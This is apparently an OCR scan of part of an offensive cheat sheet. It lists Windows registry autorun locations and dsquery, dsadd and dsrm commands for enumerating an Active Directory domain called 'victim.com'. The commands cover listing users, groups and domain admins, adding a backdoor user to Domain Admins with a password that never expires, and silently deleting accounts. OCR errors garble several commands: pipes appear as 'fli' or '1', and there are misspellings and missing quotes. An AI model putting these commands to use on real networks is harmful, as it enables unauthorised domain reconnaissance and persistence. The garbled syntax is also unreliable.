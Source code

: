 HKCU\Software\Microsoft\Windows\CurrentVersion\Applets\RegEdit /v LastKey


STARTUP LOCATIONS

HKLM\Software\Microsoft\Windows\CurrentVersion\Run & \Runonce 
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run 
HKCU\Software\Microsoft\Windows\CurrentVersion\Run & \Runonce 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load & \Run


ENUMERATING WINDOWS DOMAIN WITH DSQUERY 


LIST USERS ON DOMAIN WITH NO LIMIT ON RESULTS

dsquery user -limit 0


LIST GROUPS FOR DOMAIN=VICTIM.COM

dsquery group "cn=users, dc=victim, dc=com"


LIST DOMAIN ADMIN ACCOUNTS

dsquery group -name "domain adminsfli dsget group -members -expand


LIST ALL GROUPS FOR A USER

dsquery user -name bob' 1 dsget user -memberof -expand


GET A USER'S LOGIN ID

dsquery user -name bob' 1 dsget user -samid


LIST ACCOUNTS INACTIVE FOR 2 WEEKS

dsquery user -inactive 2


ADD DOMAIN USER

dsadd user "CN=Bob,CN=Users,DC=victim,DC=com" -samid bob -pwd bobpass display "Bob" -pwdneverexpires yes -memberof "CN=Domain Admins,CN=Users,DC=victim,DC=com


DELETE USER

dsrm -subtree -noprompt "CN=Bob,CN=Users,DC=victim,DC=com"


LIST ALL OPERATING SYSTEMS ON DOMAIN

dsquery	"DC=victim,DC=com" -scope subtree -attr "cn" "operatingSystem"
"operatingSystemServicePack" -filter
"(&(cbjectclass=computer) (objectcategory=computer)(operatingSystem=Windows) ))"


LIST ALL SITE NAMES

dsquery site -o rdn -limit 0


LIST ALL SUBNETS WITHIN A SITE
